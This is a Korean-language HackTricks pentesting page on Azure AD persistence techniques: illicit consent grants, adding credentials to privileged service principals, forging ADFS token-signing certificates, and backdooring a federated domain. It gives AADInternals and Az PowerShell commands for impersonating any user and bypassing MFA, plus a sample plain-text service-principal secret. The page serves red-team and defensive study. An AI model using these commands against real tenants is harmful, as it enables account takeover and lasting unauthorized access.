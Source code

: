 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Illicit Consent Grant

기본적으로, 모든 사용자는 Azure AD에 애플리케이션을 등록할 수 있습니다. 따라서 높은 영향력을 가진 권한이 필요한 애플리케이션(대상 테넌트 전용)을 등록할 수 있으며, 관리자가 승인하면(관리자라면 승인 가능) 사용자 대신 메일 전송, 역할 관리 등의 권한을 부여할 수 있습니다. 이는 성공할 경우 매우 **결실을 맺을** 수 있는 **피싱 공격을 실행**할 수 있게 해줍니다.

또한, 사용자가 해당 애플리케이션을 수락하여 접근을 유지할 수도 있습니다.

### Applications and Service Principals

Application Administrator, GA 또는 microsoft.directory/applications/credentials/update 권한이 있는 사용자 정의 역할의 권한으로, 기존 애플리케이션에 자격 증명(비밀 또는 인증서)을 추가할 수 있습니다.

**높은 권한을 가진 애플리케이션을 타겟팅**하거나 **높은 권한을 가진 새로운 애플리케이션을 추가**하는 것이 가능합니다.

애플리케이션에 추가할 흥미로운 역할은 **특권 인증 관리자 역할**로, 이는 전역 관리자의 **비밀번호를 재설정**할 수 있게 해줍니다.

이 기술은 또한 **MFA를 우회**할 수 있게 해줍니다.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- 인증서 기반 인증을 위해
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

**DA 권한**으로 온프레미스 AD에서 **새로운 Token signing** 및 **Token Decrypt certificates**를 생성하고 가져올 수 있습니다. 이 인증서는 매우 긴 유효 기간을 가집니다. 이를 통해 우리가 아는 ImuutableID를 가진 **모든 사용자로 로그인**할 수 있습니다.

**ADFS 서버에서 DA로** 아래 명령을 실행하여 새로운 인증서를 생성하고 (기본 비밀번호 'AADInternals'), 이를 ADFS에 추가하고, 자동 롤오버를 비활성화하고, 서비스를 재시작합니다:
```powershell
New-AADIntADFSSelfSignedCertificates
```
그런 다음 Azure AD로 인증서 정보를 업데이트합니다:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA 권한이 있는 테넌트에서 **새 도메인 추가** (검증 필요), 인증 유형을 Federated로 설정하고 도메인이 **특정 인증서** (아래 명령의 any.sts) 및 발급자를 **신뢰하도록** 구성할 수 있습니다:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 참고 문헌

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}

